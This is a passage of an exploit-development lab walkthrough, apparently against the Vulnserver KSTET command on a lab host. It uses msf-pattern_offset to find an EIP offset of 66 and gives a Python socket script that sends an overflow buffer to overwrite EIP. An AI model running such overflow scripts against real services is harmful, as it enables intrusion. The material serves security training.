 ```python
        print("Could not connect.")
```

Now, let's use the current value of the EIP to find the offset.

![](images/offset.png)

```bash
msf-pattern_offset -l 100 -q 41326341
```

From this, we know the offset is going to be 66. Let's verify this by trying to overwrite with "B"s.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66

payload = b"".join([
    prefix,
    b"A" * offset,
    b"B" * 4,
    b"C" * (crash_length - len(prefix) - offset - 4)
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```
